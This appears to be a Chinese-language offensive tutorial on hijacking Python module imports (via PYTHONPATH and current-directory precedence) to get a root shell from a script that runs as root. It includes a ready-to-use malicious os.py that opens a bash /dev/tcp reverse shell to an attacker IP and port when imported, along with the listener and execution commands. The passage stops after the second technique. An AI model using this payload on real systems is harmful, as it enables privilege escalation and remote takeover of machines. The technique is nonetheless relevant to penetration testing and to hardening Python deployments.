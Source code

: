 ### 如何利用 Python 的环境特性在不修改原脚本的前提下，劫持程序执行流程并获取 Root Shell

**一、利用 `PYTHONPATH` 环境变量劫持**

**`PYTHONPATH`** 环境变量是 Python 解释器在寻找导入模块时，除了系统默认路径（如标准库路径和当前目录）外，会优先搜索的路径列表。如果目标脚本以 **`root`** 权限运行，并且我们能够控制 `PYTHONPATH` 的值或目标环境，就可以实现劫持

**原理**

1. **目标：** 找到一个目标脚本（以 Root 权限运行）会导入的**标准库模块**或**第三方库模块**。假设目标脚本中有一行代码是 `import os`
2. **创建恶意模块：** 我们在可控目录下创建一个与目标导入模块同名的文件，例如 `os.py`
3. **设置 `PYTHONPATH`：** 将我们存放恶意 `os.py` 文件的目录路径设置为 `PYTHONPATH` 的值
4. **执行流程：** 当 Root 脚本启动时，Python 解释器会**优先**在 `PYTHONPATH` 指向的目录中搜索 `os.py`。它会找到我们的恶意文件，并执行其中的代码，而不是系统标准的 `os` 库

**攻击步骤（获取 Root Shell）**

假设目标 Root 脚本名为 `target_root_script.py`，且它导入了 `os` 模块

1. **创建恶意载荷 (Payload)：** 在我们的可写入目录（例如 `/home/user/malicious_path/`）下创建 `os.py` 文件

   ```python
   # /home/user/malicious_path/os.py
   import subprocess
   import socket
   
   # 这段代码将在模块被导入时立即执行
   def trigger():
       # 反弹 Root Shell
       # 注意：这里使用 bash 和 /dev/tcp 是 Linux 特有技巧
       # 实际操作中，可以使用 Python 的 socket 库实现更隐蔽的反弹
       LHOST = '你的攻击机IP'
       LPORT = '你的监听端口'
       subprocess.run(f"bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1", shell=True)
   
   # 确保在模块加载时触发
   trigger()
   
   # 为了不让目标程序崩溃，我们可能需要在这里导入和暴露真正的 os 模块
   # 但简单起见，可以先尝试让程序崩溃，如果能获得 Shell 就不必关心
   # 复杂劫持：from real_os_module import *
   ```

2. **设置环境变量并执行：** 在 Shell 中设置 `PYTHONPATH`，然后运行目标脚本

   ```bash
   # 确保你的攻击机已经在 LPORT 端口监听 (e.g., nc -lvnp LPORT)
   
   export PYTHONPATH="/home/user/malicious_path/"
   /usr/bin/python3 /path/to/target_root_script.py
   # 此时，target_root_script.py 导入 os 模块时，将执行我们的反弹 Shell 代码
   ```

****

**二、利用标准库的优先级加载机制（文件名冲突）**

如果没有 `PYTHONPATH` 的控制权，我们还可以利用 Python 的**默认搜索顺序**来实现劫持。

**原理**

Python 的模块搜索顺序通常是：

1. **当前目录或程序所在目录（优先级最高）**
2. `PYTHONPATH` 中的目录
3. 标准库目录和第三方包目录

如果我们将恶意模块放置在**目标 Root 脚本所在的目录**下，或者放置在**用户当前工作目录**下，并以与目标脚本导入的模块相同的名称命名，它将优先于系统标准库被加载

**攻击策略**

这种策略需要我们对目标脚本所在的目录有写入权限，或者能控制脚本执行时的**当前工作目录 (CWD)**

1. **目标：** 目标 Root 脚本（`/opt/app/root_tool.py`）导入了 `config` 模块（一个自定义模块），或者导入了一个常见且不复杂的标准库模块，如 `logging` 或 `tempfile`

2. **当前目录劫持：** 如果目标脚本执行时，我们能控制其 CWD：

   - **创建恶意载荷：** 在我们控制的 CWD 下创建一个名为 `logging.py` 的恶意文件
   - **执行：** 当 Root 脚本被执行时，如果它导入了 `import logging`，它将加载 CWD 下的 `logging.py`

   ```bash
   # 攻击机已监听 LPORT
   
   # 切换到我们的可控目录（假设我们在这里创建了恶意的 logging.py）
   cd /home/user/malicious_cwd/
   
   # 执行 Root 脚本，使其在我们的目录下启动
   /usr/bin/python3 /opt/app/root_tool.py
   ```